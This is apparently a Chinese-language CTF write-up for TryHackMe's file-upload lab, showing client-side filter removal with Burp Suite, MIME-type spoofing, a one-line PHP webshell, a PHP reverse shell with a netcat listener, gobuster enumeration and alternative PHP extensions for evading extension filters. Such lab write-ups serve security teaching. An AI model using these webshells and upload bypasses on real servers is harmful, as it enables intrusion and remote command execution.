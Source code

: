 # 0516文件上传绕过（client-side）

https://tryhackme.com/room/uploadvulns的Task 7

已知http://java.uploadvulns.thm（PS：需要在/etc/hosts中设置IP和域名对应）只存在client-side的文件上传过滤，目标是得到该服务器/var/www/下的flag



打开网页如下：

![image-20220516095801615](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516095801615.png)

因为是client-side的过滤故查看源代码，发现非png类型文件不可上传

![image-20220516100025617](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516100025617.png)

整个流程是用户请求网页，然后服务器返回网页信息（html等等信息），其中包含了上面用于过滤文件类型的JavaScript代码。然后点击“select file”打开文件后，过滤代码就在用户端运行。点击上传，文件就传输到服务器。

![image-20220516102207195](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516102207195.png)

所以我们可以用两种方法来打破client-side过滤的机制：

1. 在服务器返回网页信息的时候截胡，把过滤代码删掉
2. 在过滤代码执行的时候处理，上传一个png后缀文件，但在执行结果返回前把文件类型改回来

可以用webshell或者reverse shell：

1. webshell我用的是以下代码

   ```
   <?php
   	echo system($_GET["cmd"]);
   ?>
   ```

2. reverse shell用的是kali的/usr/share/webshells/php/php-reverse-shell.php（记得改文件里的$IP为攻击机的IP）

以上的2X2种方法可以随便组合

## 方法一：删过滤代码+webshell

打开网页代理，打开burpsuite，选择response to this request来显示服务器返回的包（默认情况下不显示）。

![image-20220516105740620](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516105740620.png)

点击forward，收到返回的包，删除过滤的js代码

![image-20220516110033263](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516110033263.png)

点击forward后，正常上传文件即可

问题是不知道webshell.php在哪，所以用gobuster扫一下文件目录：

```
gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

找到一个可疑的文件夹/images，访问这个文件夹：http://java.uploadvulns.thm/images果然在里面，所以只要访问

```
http://java.uploadvulns.thm/images/webshell.php?cmd=cat /var/www/flag.txt
```



## 方法二：修改文件类型+reverse shell

把php-reverse-shell.php改成shell.png(改成shell只是懒得打，但是后缀一定要改)

![image-20220516110903950](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516110903950.png)

点击“upload”，修改文件类型，点击forward成功上传![image-20220516111059415](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516111059415.png)

也是一样的用gobuster找到文件上传到何处

攻击机这边打开netcat的listener，然后访问

```
nc -lvnp 1234(端口号)
```

获得reverse shell，得到flag

![image-20220516111412502](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516111412502.png)



# 0516文件上传绕过（server-side）-文件拓展名过滤

https://tryhackme.com/room/uploadvulns的Task 8

后缀改成php5就可以上传了，以下是一些很少使用但服务器或许可以识别的Php后缀名，一个个试出来的：.php3, .php4, .php5, .php7, .phps, .php-s,  .pht .phar。

![image-20220516152831391](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516152831391.png)

# 0516文件上传绕过（server-side）-magic numbers过滤

https://tryhackme.com/room/uploadvulns的Task 9


